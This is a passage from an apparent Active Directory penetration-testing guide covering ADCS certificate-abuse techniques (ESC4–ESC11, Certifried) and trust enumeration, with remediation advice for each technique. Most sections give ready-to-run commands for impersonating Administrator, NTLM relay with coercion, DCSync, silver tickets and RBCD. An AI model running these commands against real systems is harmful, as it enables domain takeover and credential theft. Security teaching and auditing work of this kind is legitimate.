ENROLLEE_SUPPLIES_SUBJECTinmsPKI-Certificate-Name-Flag - Set
pKIExtendedKeyUsageandmsPKI-Certificate-Application-Policyto Client Authentication (1.3.6.1.5.5.7.3.2)
11.6.3 Attack from Linux
Certipy automates the template modification in a single command:
# Modify the template (saves old config for restoration)
certipy template -u '[user]@lab.local' -p '[password]' -template ESC4 -save-old
# Now abuse as ESC1
certipy req -u '[user]@lab.local' -p '[password]' -ca [ca-name] -template ESC4 -upn Administrator
certipy auth -pfx administrator.pfx -username Administrator -domain lab.local
# Restore original configuration
certipy template -u '[user]@lab.local' -p '[password]' -template ESC4 -configuration ESC4.json11.6.4 Attack from Windows
Use PowerView to modify template attributes one by one:
# Add enrollment rights
Add-DomainObjectAcl -TargetIdentity ESC4 -PrincipalIdentity "Domain Users" -RightsGUID "0e10c968-78fb-11d2-90d4-00c04f79dc55" -TargetSearchBase "LDAP://CN=Configuration,DC=lab,DC=local"
# Disable Manager Approval (set enrollment flag to 9)
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local" -Identity ESC4 -Set @{'mspki-enrollment-flag'=9}
# Disable Authorized Signatures
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local" -Identity ESC4 -Set @{'mspki-ra-signature'=0}
# Enable SAN specification
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local" -Identity ESC4 -Set @{'mspki-certificate-name-flag'=1}
# Set Client Authentication EKU
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local" -Identity ESC4 -Set @{'pkiextendedkeyusage'='1.3.6.1.5.5.7.3.2'}
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local" -Identity ESC4 -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'}Then request and authenticate as with ESC1.
Methodology
-
certipy find -u "$USER@$DOMAIN" -p "$PASS" -dc-ip $DC_IP -vulnerable -stdout -
certipy template -u "$USER@$DOMAIN" -p "$PASS" -template $TEMPLATE -save-old -
certipy req -u "$USER@$DOMAIN" -p "$PASS" -ca $CA -template $TEMPLATE -upn Administrator -
certipy auth -pfx administrator.pfx -username Administrator -domain $DOMAIN -
certipy template -u "$USER@$DOMAIN" -p "$PASS" -template $TEMPLATE -configuration $TEMPLATE.json
11.6.5 Remediation
- Audit ACLs on all certificate template objects; remove FullControl, WriteDacl, WriteOwner, WriteProperty for non-admin principals.
- Use BloodHound or Certipy to identify dangerous permissions on templates.
- Monitor template modification events.
11.7 ESC5; Vulnerable PKI Object Access Control
11.7.1 Understanding ESC5
ESC5 targets elevated privileges over AD objects indirectly connected to ADCS (not the templates or CA directly). These include the CA server's computer object, the RPC/DCOM server, or any container/object under CN=Public Key Services,CN=Services,CN=Configuration. If a compromised account is a local administrator on the ADCS server, it has ManageCA and ManageCertificates rights, enabling ESC4/ESC7-style attacks.
11.7.2 Abuse Requirements
- Compromised account with elevated rights over the CA server's AD computer object (S4U2Self/S4U2Proxy), RPC/DCOM, or any PKI container object.
- Local Administrator on the ADCS server implies ManageCA + ManageCertificates.
11.7.3 Attack
The attack replicates ESC7 using the built-in SubCA template. From Linux with Certipy over proxychains (when ADCS is on a separate server):
# Request cert (will be denied -- save key)
proxychains4 -q certipy req -u [user] -p [password] -dc-ip [dc-ip] -ns [dc-ip] -dns-tcp -target-ip [target-ip] -ca lab-WS01-CA -template SubCA -upn Administrator
# Issue the denied request
proxychains4 -q certipy ca -u [user] -p [password] -dc-ip [dc-ip] -ns [dc-ip] -dns-tcp -target-ip [target-ip] -ca lab-WS01-CA -issue-request 10
# Retrieve the certificate
proxychains4 -q certipy req -u [user] -p [password] -dc-ip [dc-ip] -ns [dc-ip] -dns-tcp -target-ip [target-ip] -ca lab-WS01-CA -retrieve 10
# Authenticate
proxychains4 -q certipy auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip [dc-ip]From Windows; use the Certificate Authority console (certsrv.msc) to issue pending requests, then download with Certify and authenticate with Rubeus.
Methodology
-
certipy req ... -ca $CA -template SubCA -upn Administrator certipy ca ... -ca $CA -issue-request $ID certipy req ... -ca $CA -retrieve $ID
11.7.4 Remediation
- Restrict local administrator access to the ADCS server.
- Audit ACLs on PKI container objects, the CA computer object, and RPC/DCOM endpoints.
- Separate the ADCS server from the DC to limit blast radius.
11.8 ESC6; EDITF_ATTRIBUTESUBJECTALTNAME2 on the CA
11.8.1 Understanding ESC6
When the CA has the EDITF_ATTRIBUTESUBJECTALTNAME2 flag set, any certificate request can include user-defined values in the SAN, regardless of whether the template allows it. This makes every template that enables Client Authentication and enrollment by low-privileged users exploitable like ESC1 (including the built-in User template).
This vulnerability was patched in the May 2022 Security Updates (CVE-2022-26923). Post-patch, the flag is ignored for SAN-based authentication. However, unpatched environments remain vulnerable.
11.8.2 Attack
Linux:
# Confirm ESC6: "User Specified SAN: Enabled" in certipy output
certipy find -u '[user]@lab.local' -p '[password]' -dc-ip [target-ip] -vulnerable -stdout
# Abuse -- request User template with alternate UPN
certipy req -u '[user]@lab.local' -p '[password]' -ca [ca-name] -template User -upn administrator@lab.localWindows:
# Confirm flag
.\Certify.exe cas
# Look for: [!] UserSpecifiedSAN : EDITF_ATTRIBUTESUBJECTALTNAME2 set
# Attack
.\Certify.exe request /ca:[dc-fqdn]\[ca-name] /template:User /altname:AdministratorMethodology
-
certipy find -u "$USER@$DOMAIN" -p "$PASS" -dc-ip $DC_IP -vulnerable -stdout -
certipy req -u "$USER@$DOMAIN" -p "$PASS" -ca $CA -template User -upn administrator@$DOMAIN
11.8.3 Remediation
- Install the May 2022 security updates.
- Disable the
EDITF_ATTRIBUTESUBJECTALTNAME2flag on the CA:certutil -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2 - Restart the CertSvc service after changing the flag.
11.9 ESC7; Vulnerable CA Access Control (ManageCA / ManageCertificates)
11.9.1 Understanding ESC7
ESC7 exploits elevated permissions on the Certificate Authority itself. Two rights matter:
- ManageCA (CA Administrator); can modify CA configuration, including enabling
EDITF_ATTRIBUTESUBJECTALTNAME2, adding ManageCertificates rights to accounts, and enabling/disabling templates. - ManageCertificates (Certificate Manager / CA Officer); can approve or deny pending certificate requests.
11.9.2 Attack from Linux (ManageCA)
Step 1: Enable SubCA template if disabled:
certipy ca -u '[user]@lab.local' -p '[password]' -ca [ca-name] -enable-template 'SubCA'Step 2: Add ManageCertificates rights to your account:
certipy ca -u '[user]@lab.local' -p '[password]' -ca [ca-name] -add-officer [user]Step 3: Request a certificate with SAN (will fail; save private key):
certipy req -u '[user]@lab.local' -p '[password]' -ca [ca-name] -template SubCA -upn Administrator
# Save private key when prompted: yStep 4: Issue the failed request:
certipy ca -u '[user]@lab.local' -p '[password]' -ca [ca-name] -issue-request 31Step 5: Retrieve the certificate:
certipy req -u '[user]@lab.local' -p '[password]' -ca [ca-name] -retrieve 3111.9.3 Attack with ManageCertificates Rights
If you already have ManageCertificates, find templates that require Manager Approval and allow Client Auth with SAN specification:
# Request cert from template with Manager Approval
certipy req -u '[user]@lab.local' -p '[password]' -ca [ca-name] -template ESC7_1 -upn Administrator
# Approve the pending request
certipy ca -u '[user]@lab.local' -p '[password]' -ca [ca-name] -issue-request 59
# Retrieve
certipy req -u '[user]@lab.local' -p '[password]' -ca [ca-name] -retrieve 5911.9.4 Attack from Windows
Toggle EDITF_ATTRIBUTESUBJECTALTNAME2 flag with PSPKI module:
$ConfigReader = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD "LAB-DC"
$ConfigReader.SetRootNode($true)
# Enable (1376590) or Disable (1114446)
$ConfigReader.SetConfigEntry(1376590,"EditFlags","PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")Add ManageCertificates rights:
Get-CertificationAuthority LAB-DC.LAB.LOCAL | Get-CertificationAuthorityAcl | Add-CertificationAuthorityAcl -Identity "[user]" -AccessType Allow -AccessMask "ManageCertificates" | Set-CertificationAuthorityAcl -RestartCARequest, approve, download, and authenticate:
# Request
.\Certify.exe request /ca:LAB-DC\[ca-name] /template:ESC7_1 /altname:Administrator
# Approve
Get-CertificationAuthority -ComputerName [dc-fqdn] | Get-PendingRequest -RequestID 100 | Approve-CertificateRequest
# Download
.\Certify.exe download /ca:LAB-DC\[ca-name] /id:100
# Authenticate
.\Rubeus.exe asktgt /user:administrator /certificate:approved.pfx /getcredentialsMethodology
-
certipy find -u "$USER@$DOMAIN" -p "$PASS" -dc-ip $DC_IP -vulnerable -stdout -
certipy ca -u "$USER@$DOMAIN" -p "$PASS" -ca $CA -add-officer $USER certipy ca -u "$USER@$DOMAIN" -p "$PASS" -ca $CA -enable-template SubCA
11.9.5 Remediation
- Restrict ManageCA and ManageCertificates rights to dedicated CA administrator accounts.
- Remove ManageCA from non-admin principals.
- Monitor CA ACL changes and certificate issuance events.
- Ensure
EDITF_ATTRIBUTESUBJECTALTNAME2is disabled and CA service does not need restarting to apply template changes.
11.10 ESC8; NTLM Relay to AD CS HTTP Endpoints
11.10.1 Understanding ESC8
ESC8 chains NTLM relay with ADCS web enrollment. ADCS exposes HTTP enrollment endpoints at http://<server>/certsrv/certfnsh.asp. Because HTTP does not verify NTLM signatures, an attacker can coerce authentication from a domain machine (e.g., a DC), relay the NTLM authentication to the CA's HTTP endpoint, and request a certificate for the coerced machine account. The resulting certificate enables authentication as that machine, leading to DCSync (if DC) or Silver Ticket attacks (any machine).
11.10.2 Abuse Requirements
- ADCS web enrollment endpoint is enabled (
Web Enrollment: Enabled). - At least one template allows domain computer enrollment and client authentication (default
MachineorDomainControllertemplates). - Ability to coerce NTLM authentication from a target machine (PetitPotam, PrinterBug, Coercer).
11.10.3 Attack from Linux
Step 1: Start Certipy relay listener targeting the CA's HTTP endpoint:
sudo certipy relay -target [target-ip] -template DomainControllerStep 2: Coerce authentication from the DC to your listener (in a second shell):
coercer coerce -l [target-ip] -t [dc-ip] -u [user] -p '[password]' -d lab.local -vAlternative coercion with PetitPotam:
python3 PetitPotam.py -u [user] -p '[password]' -d 'lab.local' [target-ip] [dc-ip]Step 3: Certipy captures the relay and issues a certificate (lab-dc.pfx). Authenticate:
certipy auth -pfx lab-dc.pfxStep 4a; DCSync (if you compromised a DC):
KRB5CCNAME=lab-dc.ccache secretsdump.py -k -no-pass lab-dc.lab.local
# Or with NT hash:
secretsdump.py 'lab-dc$'@lab-dc.lab.local -hashes :[ntlm-hash]Step 4b; Silver Ticket (any machine):
# Get Domain SID
lookupsid.py 'lab-dc$'@[dc-ip] -hashes :[ntlm-hash]
# Forge Silver Ticket
ticketer.py -nthash [ntlm-hash] -domain-sid [domain-sid] -domain lab.local -spn cifs/lab-dc.lab.local Administrator
# Use it
KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass lab-dc.lab.localMethodology
-
certipy find -u "$USER@$DOMAIN" -p "$PASS" -dc-ip $DC_IP -vulnerable -stdout -
sudo certipy relay -target $CA_IP -template DomainController -
coercer coerce -l $LISTENER_IP -t $TARGET_IP -u "$USER" -p "$PASS" -d $DOMAIN -
certipy auth -pfx $TARGET.pfx
11.10.4 Remediation
- Disable HTTP web enrollment: remove the Certificate Authority Web Enrollment role service if not needed.
- Enable HTTPS only with Extended Protection for Authentication (EPA/Channel Binding).
- Require signing on all NTLM-capable protocols (SMB signing, LDAP signing).
- Patch authentication coercion vectors (PetitPotam, PrinterBug).
- Restrict machine account templates to only necessary enrollees.
11.11 ESC9; Certificate Mapping Bypass (NoSecurityExtension)
11.11.1 Understanding ESC9
ESC9 exploits a flaw in certificate mapping. When a template has the CT_FLAG_NO_SECURITY_EXTENSION flag set in msPKI-Enrollment-Flag, the szOID_NTDS_CA_SECURITY_EXT security extension (which embeds the requester's objectSid) is not included in issued certificates. This means the KDC cannot perform strong certificate mapping (even if StrongCertificateBindingEnforcement = 1), and falls back to UPN-based implicit mapping (as if the registry key were 0).
The attacker modifies a controlled user's UPN to match the target's UPN, requests a certificate from the vulnerable template, then reverts the UPN. The certificate maps to the target account because only the UPN is used for mapping.
11.11.2 Abuse Requirements
| # | Condition |
|---|---|
| 1 | StrongCertificateBindingEnforcement is not 2, OR CertificateMappingMethods contains UPN flag (0x4) |
| 2 | Template has CT_FLAG_NO_SECURITY_EXTENSION in msPKI-Enrollment-Flag |
| 3 | Template enables Client Authentication |
| 4 | Attacker has GenericWrite over a user account (Account A) to compromise another account (Account B) |
11.11.3 Attack from Linux
# 1. Obtain credentials for user2 (controlled account) via Shadow Credentials
certipy shadow auto -u '[user]@lab.local' -p '[password]' -account user2
# 2. Change user2's UPN to match target (user3)
certipy account update -u '[user]@lab.local' -p '[password]' -user user2 -upn user3@lab.local
# 3. Request certificate from ESC9 template as user2
certipy req -u 'user2@lab.local' -hashes 2b576acbe6bcfda7294d6bd18041b8fe -ca [ca-name] -template ESC9
# 4. Revert user2's UPN
certipy account update -u '[user]@lab.local' -p '[password]' -user user2 -upn user2@lab.local
# 5. Authenticate as user3 using the certificate
certipy auth -pfx user3.pfx -domain lab.local11.11.4 Attack from Windows
# Reset user2 password
Set-DomainUserPassword -Identity user2 -AccountPassword $((ConvertTo-SecureString '[new-password]' -AsPlainText -Force))
# Change user2 UPN
Set-DomainObject user2 -Set @{'userPrincipalName'='user3@lab.local'}
# Log in as user2 (RDP or RunasCS), request certificate
.\Certify.exe request /ca:[dc-fqdn]\[ca-name] /template:ESC9 /altname:user3
# Convert and authenticate with Rubeus
.\Rubeus.exe asktgt /user:user3 /certificate:user3.pfx /getcredentials /nowrapMethodology
-
certipy account update ... -user $CONTROLLED -upn $TARGET@$DOMAIN certipy req ... -template ESC9 certipy account update ... -user $CONTROLLED -upn $CONTROLLED@$DOMAIN certipy auth -pfx $TARGET.pfx -domain $DOMAIN
11.11.5 Remediation
- Remove the
CT_FLAG_NO_SECURITY_EXTENSIONflag from all templates. - Set
StrongCertificateBindingEnforcement = 2(Full Enforcement) on the KDC. - Restrict GenericWrite permissions; audit AD ACLs for unnecessary write access.
- Apply April 2023+ updates which deprecate Disabled mode (
0) for strong mapping keys.
11.12 ESC10; Certificate Mapping Bypass (Weak Registry Keys)
11.12.1 Understanding ESC10
ESC10 is similar to ESC9 but targets misconfigured registry keys rather than template flags. Two cases exist depending on which registry key is weakened.
11.12.2 Case 1; StrongCertificateBindingEnforcement = 0
Requirements:
Verify the registry key:
reg.py 'lab'/'Administrator':'[password]'@[target-ip] query -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Kdc'Attack (Linux):
# Shadow Credentials to get user2 hash
certipy shadow auto -u '[user]@lab.local' -p '[password]' -account user2
# Change user2 UPN to Administrator
certipy account update -u '[user]@lab.local' -p '[password]' -user user2 -upn administrator@lab.local
# Request certificate from User template
certipy req -u 'user2@lab.local' -hashes 2b576acbe6bcfda7294d6bd18041b8fe -ca [ca-name] -template User
# Revert UPN
certipy account update -u '[user]@lab.local' -p '[password]' -user user2 -upn user2@lab.local
# Authenticate as Administrator
certipy auth -pfx administrator.pfx -domain lab.local11.12.3 Case 2; CertificateMappingMethods = 0x4
Requirements:
Verify:
reg.py 'lab'/'Administrator':'[password]'@[target-ip] query -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL'Attack (Linux): Because Schannel handles the mapping, PKINIT (Kerberos) will not work. Use -ldap-shell for Schannel authentication:
# Change user2 UPN to DC hostname
certipy account update -u '[user]@lab.local' -p '[password]' -user user2 -upn 'LAB-DC$@lab.local'
# Request certificate
certipy req -u 'user2@lab.local' -hashes 2b576acbe6bcfda7294d6bd18041b8fe -ca [ca-name] -template User
# Revert UPN
certipy account update -u '[user]@lab.local' -p '[password]' -user user2 -upn user2@lab.local
# Authenticate via Schannel (LDAP shell)
certipy auth -pfx lab-dc.pfx -domain lab.local -dc-ip [target-ip] -ldap-shell
# In LDAP shell: create computer, configure RBCD, then use getST to impersonate
# add_computer plaintext plaintext123
# set_rbcd lab-dc$ plaintext$Complete the RBCD attack:
getST.py -spn cifs/LAB-DC.LAB.LOCAL -impersonate Administrator -dc-ip [target-ip] lab.local/'plaintext$':plaintext123
KRB5CCNAME=Administrator.ccache wmiexec.py -k -no-pass LAB-DC.LAB.LOCALMethodology
-
reg.py "$DOMAIN/$ADMIN:$PASS"@$DC_IP query -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Kdc' reg.py "$DOMAIN/$ADMIN:$PASS"@$DC_IP query -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL'
11.12.4 Remediation
- Set
StrongCertificateBindingEnforcement = 2(Full Enforcement). - Set
CertificateMappingMethods = 0x18(default; only S4USelf Kerberos mapping). - Apply April 2023+ updates that deprecate Disabled mode.
- Restrict GenericWrite permissions on user/computer objects.
11.13 ESC11; NTLM Relay to AD CS ICPR (RPC) Endpoints
11.13.1 Understanding ESC11
ESC11 is the RPC counterpart to ESC8. By default, ADCS exposes an RPC endpoint for certificate enrollment called the MS-ICPR interface. The IF_ENFORCEENCRYPTICERTREQUEST flag controls whether NTLM signatures are verified on this interface. If disabled (often due to older Windows Server compatibility), an attacker can relay coerced NTLM authentication over RPC to enroll certificates, similar to ESC8 but using RPC instead of HTTP.
Discovered by Sylvain Heiniger and the @compasssecurity team.
11.13.2 Abuse Requirements
IF_ENFORCEENCRYPTICERTREQUESTflag is not set (shown asEnforce Encryption for Requests: Disabledin Certipy output).- Ability to coerce NTLM authentication.
- At least one template allowing machine enrollment and client authentication.
11.13.3 Attack from Linux
Step 1: Start Certipy relay targeting the RPC endpoint:
sudo certipy relay -target "rpc://[target-ip]" -ca "lab-WS01-CA" -template DomainControllerStep 2: Coerce authentication:
python3 PetitPotam.py -u [user] -p '[password]' -d 'lab.local' [target-ip] [dc-ip]Certipy captures the relay and issues a certificate. Continue with authentication as in ESC8.
Methodology
-
certipy find -u "$USER@$DOMAIN" -p "$PASS" -dc-ip $DC_IP -vulnerable -stdout -
sudo certipy relay -target "rpc://$CA_IP" -ca "$CA_NAME" -template DomainController -
python3 PetitPotam.py -u $USER -p "$PASS" -d "$DOMAIN" $LISTENER_IP $TARGET_IP
11.13.4 Remediation
- Enable the
IF_ENFORCEENCRYPTICERTREQUESTflag on the CA to enforce encryption for ICPR requests. - Patch authentication coercion vectors.
- Enable SMB signing to prevent relay of SMB NTLM authentication.
11.14 Certificate Mapping
Understanding certificate mapping is essential for ESC6, ESC9, and ESC10. Certificate mapping associates an issued certificate with the AD account it represents. After CVE-2022-26923 (Certifried), Microsoft introduced the szOID_NTDS_CA_SECURITY_EXT extension and two registry keys to enforce strong mapping.
11.14.1 Kerberos Mapping
Registry key: HKLM\SYSTEM\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement
| Value | Mode | Behavior |
|---|---|---|
0 | Disabled | No strong mapping; uses UPN/DNS from SAN for implicit mapping (pre-patch behavior). Deprecated after April 2023. |
1 | Compatibility (default) | Checks for explicit mapping first, then szOID_NTDS_CA_SECURITY_EXT. If extension is absent, allows authentication if the user predates the certificate. |
2 | Full Enforcement | Requires strong mapping (explicit or via security extension). Refuses authentication if extension is missing. |
11.14.2 Schannel Mapping
Registry key: HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel\CertificateMappingMethods
| Flag | Value | Description |
|---|---|---|
| Subject/Issuer | 0x0001 | Explicit mapping by subject and issuer |
| Issuer | 0x0002 | Explicit mapping by issuer only |
| SAN | 0x0004 | Implicit mapping using SAN (UPN/DNS): exploitable |
| S4USelf implicit | 0x0008 | Kerberos S4USelf implicit mapping |
| S4USelf explicit | 0x0010 | Kerberos S4USelf explicit mapping |
Default value: 0x18 (0x8 + 0x10). If set to 0x1F (all flags), SAN-based mapping is enabled, creating ESC10 Case 2 conditions.
11.15 Certifried (CVE-2022-26923)
11.15.1 Understanding Certifried
Discovered by Oliver Lyak, CVE-2022-26923 exploits a flaw in how certificates are mapped to computer accounts. Before the patch, when a computer account requested a certificate using the Machine template, the certificate was mapped based on the dNSHostName property. An attacker could:
- Create a new machine account (default: any user can create up to 10).
- Clear the machine's SPNs to avoid constraint violations.
- Set the
dNSHostNameto match the target (e.g., DC hostname). - Request a certificate using the
Machinetemplate; the CA usesdNSHostNamefor mapping. - Authenticate as the target machine.
11.15.2 Manual Attack (Linux)
Step 1: Check if patched; request a User template certificate:
certipy req -u '[user]@lab.local' -p '[password]' -ca [ca-name] -dc-ip [target-ip] -template User
# If output says "Certificate has no object SID" -- vulnerableStep 2: Create a computer account (no SPNs by default with addcomputer.py):
addcomputer.py -computer-name 'CERTIFRIED$' -computer-pass '[password]' -dc-ip [target-ip] 'LAB.LOCAL/[user]':'[password]'Step 3: Change dnsHostName to match DC using powerview.py:
python3 powerview.py lab.local/[user]:'[password]'@[target-ip]
PV > Set-DomainObject -Identity 'CERTIFRIED$' -Set dnsHostName="dc02.lab.local"Step 4: Request certificate and authenticate:
certipy req -u 'CERTIFRIED$' -p '[password]' -dc-ip [target-ip] -ca [ca-name] -template 'Machine'
certipy auth -pfx dc02.pfx11.15.3 Automated Attack with Certipy
DCSync with PassTheCert (Linux):
python3 passthecert.py -dc-ip [target-ip] -crt administrator.crt -key administrator-nopass.key -domain [domain] -port 636 -action modify_user -target [user] -elevate
# Then DCSync
secretsdump.py '[domain]/[user]':'[password]'@[target-ip]RBCD with PassTheCert (Linux):
# Create computer
python3 passthecert.py -dc-ip [target-ip] -crt administrator.crt -key administrator-nopass.key -domain [domain] -port 636 -action add_computer -computer-name '[machine-name]' -computer-pass [machine-pass]
# Configure delegation
python3 passthecert.py -dc-ip [target-ip] -crt administrator.crt -key administrator-nopass.key -domain [domain] -port 636 -action write_rbcd -delegate-to '[dc-machine]' -delegate-from '[machine-name]'
# Get TGT via S4U
getST.py -spn 'cifs/[dc-fqdn]' -impersonate Administrator '[domain]/[machine-name]:[machine-pass]'
KRB5CCNAME=Administrator.ccache wmiexec.py -k -no-pass [dc-fqdn]Password Reset (Linux):
python3 passthecert.py -dc-ip [target-ip] -crt administrator.crt -key administrator-nopass.key -domain [domain] -port 636 -action modify_user -target administrator -new-pass [new-password]PassTheCert from Windows:
# DCSync
.\PassTheCert.exe --server authority --cert-path .\administrator.pfx --elevate --target DC=AUTHORITY,DC=HTB --sid S-1-5-21-...-12101
# RBCD
.\PassTheCert.exe --server authority --cert-path .\administrator.pfx --add-computer --computer-name HTB05
.\PassTheCert.exe --server authority --cert-path .\administrator.pfx --rbcd --target "CN=AUTHORITY,OU=Domain Controllers,DC=authority,DC=htb" --sid $COMPUTER_SID
.\Rubeus.exe asktgt /user:"[machine-name]" /password:"$PASS" /domain:[domain] /impersonate:Administrator /msdsspn:CIFS/[dc-fqdn] /ptt
# Password Reset
.\PassTheCert.exe --server authority --cert-path .\administrator.pfx --reset-password --target CN=Administrator,CN=Users,DC=authority,DC=htb --new-password NewPass123Restore previous configurations:
# PassTheCert supports cleanup actions:
# del_computer, remove_rbcd, flush_rbcd, ldap-shellMethodology
-
openssl pkcs12 -in cert.pfx -nocerts -out cert.key openssl pkcs12 -in cert.pfx -clcerts -nokeys -out cert.crt -
python3 passthecert.py -dc-ip $DC_IP -crt cert.crt -key cert.key -domain $DOMAIN -port 636 -action modify_user -target $USER -elevate
11.17 Using BloodHound with Certipy
11.17.1 Data Collection
Certipy generates BloodHound-compatible data alongside text and JSON output:
# Full output (text + JSON + BloodHound)
certipy find -u '[user]@lab.local' -p '[password]' -dc-ip [target-ip]
# BloodHound data only
certipy find -u '[user]@lab.local' -p '[password]' -dc-ip [target-ip] -bloodhoundCollect standard BloodHound data with bloodhound-python:
bloodhound-python -u '[user]' -d 'lab.local' -p '[password]' --zip -ns [target-ip] --dns-tcp11.17.2 BloodHound Forked Version
To visualize ADCS attack paths, use Oliver Lyak's forked BloodHound (@ly4k fork). This version includes ADCS nodes (templates, CAs) and custom PKI queries.
# Download
wget -q https://github.com/ly4k/BloodHound/releases/download/v4.2.0-ly4k/BloodHound-linux-x64.zip
unzip BloodHound-linux-x64.zip
# Start Neo4j
sudo /usr/bin/neo4j console
# Run BloodHound
cd BloodHound-linux-x64/
./BloodHound --no-sandboxImport both zip files (Certipy ADCS data + standard BloodHound data). Mark compromised users as "Owned." Use the Analysis tab PKI queries, such as "Shortest Paths to Misconfigured Certificate Template from Owned Principals (ESC1)."
Methodology
11.18 ADCS Attack Summary
| ESC | Category | Root Cause | Key Indicator | Primary Tool |
|---|---|---|---|---|
| ESC1 | Template Abuse | Enrollee can supply SAN + Client Auth EKU + low-priv enrollment | EnrolleeSuppliesSubject: True | Certipy / Certify |
| ESC2 | Template Abuse | Any Purpose EKU or no EKU + enrollable by low-priv | Any Purpose: True or no EKU | Certipy / Certify |
| ESC3 | Template Abuse | Certificate Request Agent EKU allows on-behalf-of enrollment | Enrollment Agent: True | Certipy / Certify |
| ESC4 | Access Control | Low-priv user has write access to template object | Full Control in Object Control Permissions | Certipy / PowerView |
| ESC5 | Access Control | Admin on ADCS server or write access to PKI AD objects | Local admin on CA server | Certipy + SubCA |
| ESC6 | CA Config | EDITF_ATTRIBUTESUBJECTALTNAME2 flag set on CA | User Specified SAN: Enabled | Certipy / Certify |
| ESC7 | Access Control | ManageCA / ManageCertificates rights for low-priv user | ManageCA in CA ACLs | Certipy / PSPKI |
| ESC8 | NTLM Relay | Web Enrollment over HTTP allows NTLM relay | Web Enrollment: Enabled | Certipy relay + Coercer |
| ESC9 | Template Abuse | NoSecurityExtension flag bypasses strong cert mapping | NoSecurityExtension in Enrollment Flag | Certipy + GenericWrite |
| ESC10 | Registry | Weak StrongCertificateBindingEnforcement or CertificateMappingMethods | Registry key = 0 or 0x4 | Certipy + GenericWrite |
| ESC11 | NTLM Relay | RPC/ICPR endpoint without encryption enforcement | Enforce Encryption: Disabled | Certipy relay + PetitPotam |
| Certifried | Misc | dNSHostName spoofing on created machine account | Certificate has no object SID | Certipy account create |
11.18.1 Global Remediation Checklist
| Action | Mitigates |
|---|---|
| Install May 2022 + April 2023 security updates | ESC6, Certifried, ESC9, ESC10 |
Set StrongCertificateBindingEnforcement = 2 | ESC9, ESC10 Case 1, Certifried |
Set CertificateMappingMethods = 0x18 | ESC10 Case 2 |
Remove ENROLLEE_SUPPLIES_SUBJECT from auth templates | ESC1 |
| Replace Any Purpose EKU with specific EKUs | ESC2 |
| Restrict Certificate Request Agent template enrollment | ESC3 |
| Audit template DACLs; remove unnecessary write permissions | ESC4 |
| Restrict local admin access to ADCS server | ESC5 |
Disable EDITF_ATTRIBUTESUBJECTALTNAME2 | ESC6 |
| Restrict ManageCA/ManageCertificates to dedicated admin accounts | ESC7 |
| Disable HTTP web enrollment or enforce HTTPS with EPA | ESC8 |
Remove CT_FLAG_NO_SECURITY_EXTENSION from templates | ESC9 |
Enable IF_ENFORCEENCRYPTICERTREQUEST on CA | ESC11 |
Set ms-DS-MachineAccountQuota = 0 | Certifried, RBCD chains |
| Enable SMB signing domain-wide | ESC8, ESC11 (relay prevention) |
| Monitor: Event IDs 4886/4887 (cert requests), 4768 (TGT with cert), template changes | All |
12. Active Directory Trust Attacks
Key principle: The direction of trust is inversely proportional to the direction of access. If Forest-A trusts Forest-B, then Forest-B users can access Forest-A resources, not the reverse.
12.1 Trust Types and Enumeration
Understanding the trust landscape is the first step in any AD engagement. Trust relationships define how authentication flows between domains and forests, and each type has different security implications.

12.1.1 Trust Types
| Trust Type | Description | Transitivity | Creation |
|---|---|---|---|
| Parent-Child | Between parent and child domain within the same forest | Transitive | Automatic (new child domain) |
| Tree-Root | Links root domains of different trees within the same forest | Transitive | Automatic (new tree) |
| External | Between domains in separate forests without forest trust | Non-transitive | Manual |
| Forest | Between root domains of two forests | Transitive | Manual |
| Shortcut (Cross-Link) | Between child domains in different trees within same forest | Can be one-way or two-way | Manual |
| Realm | Between Windows domain and non-Windows Kerberos realm | Can be transitive or non-transitive | Manual |
12.1.2 Enumerating Domain and Forest Trusts
Trust enumeration should be performed early in any AD assessment. Multiple tools can identify trust relationships, each providing different levels of detail.
Using built-in ActiveDirectory module:
# Import the ActiveDirectory module and enumerate all trusts
Import-Module ActiveDirectory
Get-ADTrust -Filter *Key attributes to note in the output: Direction (BiDirectional, Inbound, Outbound), IntraForest (True = same forest), ForestTransitive (True = forest trust), TrustAttributes (numeric flags like 8 = FOREST_TRANSITIVE, 32 = WITHIN_FOREST), and SIDFilteringQuarantined (SID filtering status).
Using PowerView:
# Basic trust enumeration
Import-Module .\PowerView.ps1
Get-DomainTrust
# Recursive trust mapping - enumerates trusts for every discovered domain
Get-DomainTrustMappingGet-DomainTrustMapping recursively enumerates all trusts for every domain discovered, revealing the complete trust topology including trusts between partner forests (e.g., an outbound trust from LOGISTICS.AD to MEGACORP.AD).
12.1.3 Visualizing Trust Relationships
Visual tools help identify attack paths across complex trust topologies. Two primary options exist:
BloodHound: Run SharpHound collection against each discovered domain, then import into BloodHound to visualize trust paths.
# Collect data from each domain
.\SharpHound.exe -c All -d [domain]
.\SharpHound.exe -c All -d child.[domain]
.\SharpHound.exe -c All -d [foreign-domain]Adalanche: A faster alternative that combines collection and visualization in one tool.
# Collect AD data
.\Adalanche.exe collect activedirectory --domain [domain]
.\Adalanche.exe collect activedirectory --domain [foreign-domain]
# Launch visualizer (opens on port 8080)
.\Adalanche.exe analyzeIn Adalanche, use the query (objectClass=trustedDomain) in both the Start Query and Middle Query fields to display all visible trust relationships.
Methodology
-
Import-Module ActiveDirectory Get-ADTrust -Filter * -
Import-Module .\PowerView.ps1 Get-DomainTrustMapping -
